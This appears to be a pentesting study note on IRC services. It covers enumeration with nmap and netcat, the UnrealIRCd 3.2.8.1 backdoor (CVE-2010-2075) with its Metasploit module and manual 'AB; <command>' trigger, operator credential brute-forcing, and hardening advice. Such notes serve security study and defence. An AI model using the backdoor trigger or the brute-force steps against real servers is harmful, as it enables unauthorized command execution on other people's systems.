

# 31 - IRC (Ports 6667 / 6660-7000) Pentesting

## 1. Executive Summary

IRC (Internet Relay Chat) is a real-time text chat protocol on **TCP 6667** (and the 6660-7000 range; 194 historically, 6697 for TLS). On a corporate or CTF network its relevance is threefold: it is a classic **botnet/malware C2** channel (find one and you may have found infected hosts), older **ircd** servers carry **RCE CVEs** (notably the **UnrealIRCd 3.2.8.1 backdoor, CVE-2010-2075**), and it readily leaks **users, channels, and server topology** to anyone who connects with a random nickname.

## 2. Protocol Overview & Architecture

Plaintext line protocol. A client registers with `NICK` and `USER`, then issues commands: `LIST` (channels + banners), `NAMES #chan` (users in a channel), `WHOIS`, `JOIN`. Servers may require a password (`PASS`) or operator auth (`OPER`). Channels prefixed `#` are network-wide; `&` are server-local.

## 3. Enumeration & Footprinting

```bash
nmap -sV --script irc-* -p 6660-7000,6667,194 <IP>   # incl. irc-unrealircd-backdoor, irc-botnet-channels
nc -nv <IP> 6667
NICK ran213eqdw123
USER ran213eqdw123 0 * ran213eqdw123
LIST            # channels + topics
NAMES #admin    # users in a channel
WHOIS <nick>
```

## 4. Exploitation Deep Dive

### 4.1 Enumeration
`LIST`/`NAMES`/`WHOIS` reveal usernames, real hostnames, channel topics (sometimes credentials/links), and operator accounts.

### 4.2 UnrealIRCd Backdoor — CVE-2010-2075
A trojaned UnrealIRCd 3.2.8.1 release executes any command following the `AB;` token:
```bash
nmap -p6667 --script irc-unrealircd-backdoor <IP>
msf> use exploit/unix/irc/unreal_ircd_3281_backdoor
# Manual: send  AB; <command>
```

### 4.3 Botnet C2 Detection
`irc-botnet-channels` flags channels matching known malware C2 names — pivot to identifying infected internal hosts.

### 4.4 Operator Brute / Misconfig
Weak `OPER` credentials grant server-admin powers; brute or reuse leaked creds.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Backdoor RCE runs as the ircd user → local privesc pivot.
- Channel topics/users may expose credentials or further targets.
- Identified C2 → incident-response lead for infected machines.

## 7. Defense & Hardening
1. Patch ircd (UnrealIRCd backdoor and others); verify package integrity.
2. Require TLS (6697) + auth; strong OPER credentials.
3. Restrict/monitor IRC egress to spot malware C2; firewall the port range.

## 8. Chaining Opportunities
- UnrealIRCd RCE → **[[08 - Linux Privilege Escalation]]**.
- C2 discovery → broader compromise investigation.

## 9. Related Notes
- [[01 - SSH (Port 22) Pentesting]]
- [[Command and Control Operations]]

## 10. Tools
`nc`/`irssi`, `nmap` irc-*, `metasploit` unreal_ircd backdoor.
